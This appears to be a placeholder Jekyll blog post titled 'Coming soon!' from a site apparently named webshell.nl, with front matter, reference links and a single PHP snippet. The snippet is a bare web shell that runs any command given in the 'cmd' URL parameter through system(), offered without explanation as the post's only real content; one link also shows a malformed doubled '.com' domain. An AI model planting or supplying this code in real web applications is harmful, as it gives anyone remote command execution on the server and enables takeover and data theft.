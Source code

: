 ```yaml
---
layout: post
title:  "Coming soon!"
date:   2019-10-24 00:26:08 +0200
categories: Posts
---
```

Coming soon!

{% highlight php %}
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
{% endhighlight %}

[webshell.nl twitter]: https://twitter.com.com/docs/webshellnl
[webshell.nl github]:   https://github.com/webshell